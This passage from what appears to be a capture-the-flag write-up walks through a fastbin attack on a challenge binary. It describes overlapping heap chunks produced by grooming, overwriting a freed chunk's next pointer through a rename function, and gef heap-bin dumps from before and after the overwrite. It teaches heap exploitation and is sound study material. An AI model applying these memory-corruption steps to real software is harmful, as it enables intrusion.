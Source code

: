 With that, we have our PIE/libc infoleaks.

#### Fast Bin Attack

So the libc infoleak left us off at a pretty good spot for the fast bin attack, since the unsorted bin overlaps with an allocated chunk. With how we have groomed the heap, we can just allocate an `0x60` byte chunk, which will come from the unsorted bin and overlap directly with our chunk `8`:

```
0xf0:       9
0x68/0x60:  8 & 10 (2 overlapping chunks)
0xf0:       6 (freed)
0x10:       7
```

Now we can free chunk `10`, which will insert it into the fast bin. Then leveraging chunk `8` and `rename_alien`, we can overwrite the next pointer of that chunk in the fast bin.

Before the write:

```
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7fbdc9a1ab20 ──────────────────────
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x5560138db520, size=0x20, flags=PREV_INUSE)
Fastbins[idx=1, size=0x20]  ←  Chunk(addr=0x5560138db540, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db4f0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db4a0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db450, size=0x30, flags=PREV_INUSE)
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x5560138db670, size=0x70, flags=PREV_INUSE)
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7fbdc9a1ab20' ───────────────────
[+] unsorted_bins[0]: fw=0x5560138db6d0, bk=0x5560138db6d0
 →   Chunk(addr=0x5560138db6e0, size=0x100, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7fbdc9a1ab20' ────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────── Large Bins for arena '*0x7fbdc9a1ab20' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

After the write:
```
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7fbdc9a1ab20 ──────────────────────
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x5560138db520, size=0x20, flags=PREV_INUSE)
Fastbins[idx=1, size=0x20]  ←  Chunk(addr=0x5560138db540, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db4f0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db4a0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5560138db450, size=0x30, flags=PREV_INUSE)
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x5560138db670, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x5560129ef09d, size=0x78, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7fbdc9a1ab20' ───────────────────
[+] unsorted_bins[0]: fw=0x5560138db6d0, bk=0x5560138db6d0
 →   Chunk(addr=0x5560138db6e0, size=0x100, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7fbdc9a1ab20' ────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────── Large Bins for arena '*0x7fbdc9a1ab20' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```
